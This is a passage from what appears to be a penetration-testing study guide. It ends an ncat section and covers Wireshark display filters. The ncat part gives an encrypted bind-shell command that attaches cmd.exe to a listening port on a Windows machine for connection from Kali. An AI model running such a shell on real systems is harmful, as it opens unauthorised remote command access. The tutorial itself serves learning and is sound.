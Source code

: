 If the other box does not have SSL enabled when trying to connect with ncat, the connection will fail.

You can also create encrypted bind shells with ncat, you can also connect to ncat from netcat (they are pretty much the same thing.)

Encrypted bind shell on Windows <- Kali:

```sh
win box: ncat.exe -lvn 4444 --allow [ip] [port] --ssl -e cmd.exe
linux box: ncat -nv [ip] [port] --ssl
```
## Wireshark<a name="wireshark"></a>

       Wireshark is a GUI network protocol analyzer.  It lets you interactively browse packet data
       from a live network or from a previously saved capture file.  Wireshark's native capture file
       format is pcap format, which is also the format used by tcpdump and various other tools.

Wireshark is a packet analyzer with a view(GUI). The comparsion to TCPDump which I will discuss after this section. It is sometimes helpful to see how your box is communicating which the network or seeing what is talking on the network.

Since Wireshark is GUI based, it will take me alittle more to get some images up demonstrating a capture, but I plan to do this in the future. 

A key part of using Wireshark is carving out useful data from your overall capture, sometimes a quick capture can also bring with it all the background noise that you may not be particularly interested in seeing. Below I will post some of the key filters you can use to carve out the protocols you are looking at analyzing. Hint: These can be plugged into the input bar that is just under main button array on the top and flanked on the left by a little blue ribbon.

ip.addr == [ip] #sets filter for packets with ip address.
http #sets filter to http packets (this can be done for other protocols)
tcp contains [string] #sets filter to catch tcp packets that contain a specified string.
!http #sets filter for anything but http packets using the ! symbol.
http && dns #sets filter for packets that are using DNS or HTTP using && symbol.
tcp.ack #sets filter to catch TCP ACK packets; [protocol].[method] can be used for other protocols.

There are many other filters that can be applied to your particular capture to carve out the important information you need. I may expand on this section later or post some nice cheatsheets.

## TCPdump<a name="tcpdump></a>
